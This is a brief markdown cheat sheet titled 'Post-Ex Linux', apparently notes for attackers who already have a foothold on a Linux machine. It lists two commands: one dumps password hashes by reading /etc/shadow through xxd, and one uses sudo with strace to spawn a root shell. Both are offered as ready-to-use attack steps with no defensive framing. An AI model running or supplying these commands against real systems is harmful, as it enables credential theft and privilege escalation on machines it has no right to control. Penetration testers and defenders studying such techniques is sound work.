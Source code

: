 # Post-Ex Linux

## **Hash dump**

```bash
sudo xxd /etc/shadow | xxd -r
```

---


## **Strace root**

```bash
sudo strace -o /dev/null /bin/sh
```